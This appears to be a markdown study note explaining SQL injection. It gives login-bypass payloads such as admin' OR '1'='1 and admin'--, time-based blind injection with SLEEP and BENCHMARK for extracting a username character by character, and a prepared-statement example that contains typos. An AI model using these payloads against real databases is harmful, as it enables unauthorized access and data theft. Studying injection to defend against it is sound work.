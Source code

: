 ## Example for sqli

### 1 
#### What we are expecting
```sql
$username = admin
$encrypted_pwd = Iam77groot

@query = SELECT * FROM user WHERE username = 'admin' and password = 'Iam77groot'
```
#### what we can get
```sql
$username = admin' OR '1'='1
$encrypted_pwd = pwd123

@query = SELECT * FROM user WHERE username = 'admin' OR '1'='1' and password = 'pwd123' -- Let's break it

username = 'admin' and password = 'pwd123'  -- false
username = 'admin' OR '1'='1' -- true
# Done💀!
```
### 2 
#### what we can get
```sql
$username = admin'-- 
$encrypted_pwd = pwd123

@query = SELECT * FROM user WHERE username = 'admin'-- and password = 'pwd123'
# Done💀!
```
## SQLI GOALS
- Probe database structure
- Steal data
- Alter data, elevate permissions
- Destory data, sabotage
- Bypass authentication

## Blind SQL Injection
A vulnerability may exist on a page but it does't change the response to the browser that means there would be no feedback to tell an attacker if it succeeded.
A clever technique is to inject an sql query which will cause the database to pause or to return a slow response if the injection works.

### 3
#### SQL's SLEEP Function
```sql
$id = ' AND sleep(5); --';

-- 💀 if it works the server will pause for 5 seconds this tells that the vulnerability exists then they can execute other commands blindly
```

### 4
```sql
$id = '1 UNION SELECT IF(
  SUBSTRING(username,1,1) = CHAR(97), -- char97 which is a
  BENCHMARK(5000000, MD5('MD5 is relativelt slow'), -- benchmark executes 5 million times 
  Null
  ) FROM users WHERE user_id = 1;-- ';

-- if username's first is a then the fn benchmark executes a slow process 5 million times otherwise it finishes quickly.
-- attcker can go through the entire alphabet in a loop to determine the full username
```
### Prepared Statement
```sql
SET @sql = "SELET * FROM articles WHERE title = ?"; -- ? indicates a placeholder for dynamic data
PREPARE stmt FROM @sql; -- converting it into a prepared statement
EXECUTE stmt USING @query; -- adds a value as input and executes the statement
```

